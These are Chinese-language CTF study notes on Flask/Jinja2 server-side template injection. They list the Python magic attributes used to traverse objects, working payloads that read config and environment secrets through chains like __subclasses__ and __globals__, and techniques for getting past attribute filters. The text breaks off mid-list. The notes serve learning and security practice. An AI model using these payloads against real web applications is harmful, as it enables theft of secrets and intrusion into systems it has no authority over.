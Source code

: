 # flask/jinja
- flask SSTI的基本思路就是利用python中的魔术方法找到自己要用的函数
  ```
      __dict__ 保存类实例或对象实例的属性变量键值对字典
      __class__  返回类型所属的对象
      __mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
      __bases__   返回该对象所继承的基类
      // __base__和__mro__都是用来寻找基类的
      
      __subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
      __init__  类的初始化方法
      __globals__  对包含函数全局变量的字典的引用
  ```
- ### 一些姿势
  
  [浅析SSTI(python沙盒绕过)](https://bbs.ichunqiu.com/thread-47685-1-1.html?from=aqzx8)
- #### 1、config
  
  `{{config}}`可以获取当前设置，如果题目类似`app.config ['FLAG'] = os.environ.pop（'FLAG'）`，那可以直接访问`{{config['FLAG']}}`或者`{{config.FLAG}}`得到flag
- #### 2、self
  
  ```
  {{self}} ⇒ <TemplateReference None>
    {{self.__dict__._TemplateReference__context.config}} ⇒ 同样可以找到config
  ```
- #### 3、`""`、`[]`、`()`等数据结构
  
  主要目的是配合`__class__.__mro__[2]`这样找到`object`类  
  `{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG']}}`
- #### 4、url\_for, g, request, namespace, lipsum, range, session, dict, get\_flashed\_messages, cycler, joiner, config等
  
  如果config，self不能使用，要获取配置信息，就必须从它的上部全局变量（访问配置current\_app等）。
  
  例如：
  ```
    {{url_for.__globals__['current_app'].config.FLAG}}
    {{get_flashed_messages.__globals__['current_app'].config.FLAG}}
    {{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
  ```
- ### 常用绕过
  
  [Jinja2模板注入过滤器绕过](https://0day.work/jinja2-template-injection-filter-bypasses/)  
  [SSTI Flask 技巧进阶](https://www.jianshu.com/p/a736e39c3510)
  
  以下表示法可用于访问对象的属性：
  
  * `request.__class__`
  * `request["__class__"]`
  * `request|attr("__class__")`
  
  可以使用以下方法访问数组元素：
  